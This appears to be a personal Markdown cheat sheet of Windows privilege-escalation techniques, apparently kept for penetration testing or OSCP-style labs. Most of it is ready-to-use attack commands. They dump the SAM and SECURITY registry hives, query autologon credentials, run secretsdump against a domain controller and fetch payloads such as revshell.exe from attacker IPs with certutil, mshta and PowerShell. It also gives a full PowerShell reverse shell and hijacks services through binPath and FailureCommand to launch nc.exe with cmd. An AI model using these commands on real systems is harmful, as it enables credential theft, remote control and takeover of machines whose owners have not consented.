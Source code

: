 # Windows Privilege Escalation tools to help me get system access.


## GREAT Privesc Resources

Gread Windows Privilege Escalation Walk-through:

https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

https://github.com/AonCyberLabs/Windows-Exploit-Suggester

https://book.hacktricks.xyz/windows/windows-local-privilege-escalation

https://github.com/frizb/Windows-Privilege-Escalation

https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

### [Windows-Privesc-Check]

```
Usage:
windows-privesc-check2.exe --audit -a -o wpc-report
```
More information Regarding Windows-Privesc-Check please refer to: https://github.com/pentestmonkey/windows-privesc-check/blob/master/docs/QuickStartUsage.md

### [Check current priv]
```
whoami /priv
```

### [Check hotfixes]
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### [Check Services]
```
get-acl HKLM:\System\CurrentControlSet\services\*
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List *| findstr /i "<username> Users Path"
```

### [Get Service Name and Path (May Require Escalated Privileges)]
```
Get-Service
Get-WmiObject win32_service | ?{$_.Name -like '*<ServiceName>*'} | select Name, DisplayName, State, PathName
```

### [Process Dumping Procdump.exe]
https://docs.microsoft.com/en-us/sysinternals/downloads/procdump

```
Usage:
Full Dump
& 'C:\users\accountname\procdump64.exe' -accepteula -ma PIDorPROCESS dumpname.dmp

Mini Dump
& 'C:\users\accountname\procdump64.exe' -accepteula -ma PIDorPROCESS dumpname.dmp
```

### [Enumerate Windows System Creds without tools]
```
reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system
```

### [Enumerate Windows Autologon Creds]
```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

### [Powerup.ps1 Usage]
```
Manual Powershell Priv esc powerup.ps1
powershell -nop -exec bypass
Import-Module .\powerup.ps1
Invoke-AllChecks
```

### [PowerView.ps1 Usage for Active Directory Objects]
```
powershell -nop -exec bypass
Import-Module .\PowerView.ps1
Get-AdObject
If you receive any errors it's possible AMSI is preventing execution. Look into AMSIbypass. EvilwinRM i use Bypass 4MSI
```

### [Active Directory Enumeration]
BloodHound Ingestors

https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors
```
powershell -nop -exec bypass
Import-Module .\SharpHound.ps1
Invoke-BloodHound
JSON + BloudHound zip package is then created xfer back to host and clean
```
To Import ingested data into BloodHound you must have neo4j and bloodhoundclient:

Setup NEO4J installation

https://debian.neo4j.org/?_ga=2.180534247.153130316.1570995946-1723945139.1570995946

Setup Bloodhound Client 

https://github.com/BloodHoundAD/BloodHound/releases

Starting up Neo4j
```
neo4j console
bolt://localhost:7687
```
Starting up Bloodhound Client
```
./BloodHound --no-sandbox
```
Dumpling Credentials from the Domain Controller
```
python3 secretsdump.py -just-dc-ntlm <WORKSTATION>/<username>@IP 
```

### [Download file]

[Cert Util]
```
certutil.exe -urlcache -split -f http[:]//10.10.10.10/exploit.exe
```

[mshta]
```
mshta http[:]//10.10.10.10/badthings.exe
```

[Powershell]
```
powershell IWR -Uri http[:]//myip/filename.exe -OutFile filename.exe
powershell "(new-object System.Net.WebClient).Downloadfile('http[:]//10.10.14.15:8000/revshell.exe', 'revshell.exe')"
```

### [Upgrading to powershell - Replace the placeholders with your local IP and PORT]
```
$client​ = New-Object System.Net.Sockets.TCPClient(​ "<IPADDRESS>"​ ,<PORT>);​ $stream​ =
$client​ .GetStream();[byte[]]​ $bytes​ = 0..65535|%{0};​ while​ ((​ $i​ = ​ $stream​ .Read(​ $bytes​ ,
0, ​ $bytes​ .Length)) -ne 0){;​ $data​ = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString(​ $bytes​ ,0, ​ $i​ );​ $sendback​ = (iex ​ $data​ 2>&1 |
Out-String );​ $sendback2​ = ​ $sendback​ + ​ "PS "​ + (​ pwd​ ).Path + ​ "> "​ ; ​ $sendbyte​ =
([text.encoding]::ASCII).GetBytes(​ $sendback2​ );​ $stream​ .Write(​ $sendbyte​ ,0,​ $sendbyte​ .L
ength);​ $stream​ .Flush()};​ $client​ .Close()
```

```
START /B "" powershell "(new-object System.Net.WebClient).Downloadfile('http://example:port/shell.ps1', 'shell.ps1')"
```

### [Modify Registries using powershell]
```
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlset\services\wuauserv" -Name ImagePath -Value "C:\path\to\nc.exe IP PORT -e cmd"
```
### [executing program as a different username in powershell]
```
powershell -nop -exec bypass
$username = "<WORKSTATION\username>"
$password =  ConvertTo-SecureString "<password>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList ($username, $password)
Invoke-Command -ComputerName WORKSTATION -Credential $creds -ScriptBlock {C:\path\to\nc.exe IP PORT -e cmd.exe}
```
### [BinPath and ImagePath]
https://pentestlab.blog/tag/imagepath/
```
binPath
sc config wuauserv binPath="C:\path\to\nc.exe IP PORT -e cmd"
sc query wuauserv
sc start Fax

ImagePath
sc config Fax binPath= "C:\payload.exe"
sc config Fax binPath= "C:\payload.exe" start="auto" obj="LocalSystem"
sc config Fax binPath= "C:\Windows\System32\payload.exe" start="auto" obj="LocalSystem"
sc start Fax

failure commands
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v ImagePath /t REG_SZ /d "C:\payload.exe"
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v FailureCommand /t REG_SZ /d "C:\payload.exe"
sc failure Fax command= "\"c:\Windows\system32\payload.exe\""
```

### [Locate and Portfoward using ssh]
```
netstat -tulpn | grep LISTEN
ssh -L 8000:127.0.0.1:8000 username@IP
ssh -L 8000:127.0.0.1:8000 -i id_rsa username@IP
```

### [Escaping Vi, Vim and Nano]
https://gtfobins.github.io/gtfobins/vi/

https://gtfobins.github.io/gtfobins/vim/

https://gtfobins.github.io/gtfobins/nano/
